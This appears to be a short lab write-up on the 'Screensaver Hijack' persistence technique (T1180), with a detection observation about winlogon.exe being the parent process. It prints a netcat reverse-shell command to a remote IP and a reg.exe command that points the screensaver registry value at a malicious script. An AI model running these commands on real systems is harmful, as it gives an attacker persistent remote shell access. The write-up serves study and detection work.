



# T1180: Screensaver Hijack

## Execution

To achieve persistence, the attacker can modify `SCRNSAVE.EXE` value in the registry  `HKCU\Control Panel\Desktop\` and change its data to point to any malicious file. 

In this test, I will use a netcat reverse shell as my malicious payload:


```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```


Let's update the registry:



The same could be achieved using a native Windows binary reg.exe:


```bash
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\shell.cmd
```




## Observations

Note the process ancestry on the victim system - the reverse shell process traces back to winlogon.exe as the parent process, which is responsible for managing user logons/logoffs. This is highly suspect and should warrant a further investigation:




## References




